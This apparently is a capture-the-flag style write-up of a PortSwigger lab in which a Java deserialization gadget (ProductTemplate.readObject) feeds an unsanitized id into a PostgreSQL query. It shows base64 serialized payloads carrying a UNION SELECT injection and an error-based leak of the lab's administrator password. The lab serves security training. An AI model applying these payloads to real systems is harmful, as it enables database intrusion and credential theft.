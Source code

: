 ```
    public Product getProduct()
    {
        return product;
    }
}
```

ProductTemplate.readObject() method passes the template's id attribute into a SQL statement.

String sql = String.format("SELECT \* FROM products WHERE id = '%s' LIMIT 1", id);

There is a SQL Inj point.

[https://github.com/PortSwigger/serialization-examples/blob/master/java/solution/Main.java](https://github.com/PortSwigger/serialization-examples/blob/master/java/solution/Main.java)

```
$ sudo apt install openjdk-17-jdk

$ javac Main.java
$ java Main          
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAASc=
Deserialized object ID: '

The error message confirms that the website is vulnerable to Postgres-based SQL injection via this deserialized object.

- Enumerate the number of columns in the table (8).
- Determine the data type of the columns and identify that columns 4, 5, and 6 do not expect values of the type string. Importantly, notice that the error message reflects the string input that you entered.
- List the contents of the database and identify that there is a table called users with a column called password.

$ javac Main.java
$ java Main 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAXycgVU5JT04gU0VMRUNUIE5VTEwsIE5VTEwsIE5VTEwsIENBU1QocGFzc3dvcmQgQVMgbnVtZXJpYyksIE5VTEwsIE5VTEwsIE5VTEwsIE5VTEwgRlJPTSB1c2Vycy0t
Deserialized object ID: ' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--

<p class=is-warning>
org.apache.commons.lang3.SerializationException: 
java.io.IOException: org.postgresql.util.PSQLException: 
ERROR: invalid input syntax for type numeric: &quot;j8pqu2mxfs22wimc3u04&quot;
</p>
```

**administrator:j8pqu2mxfs22wimc3u04**
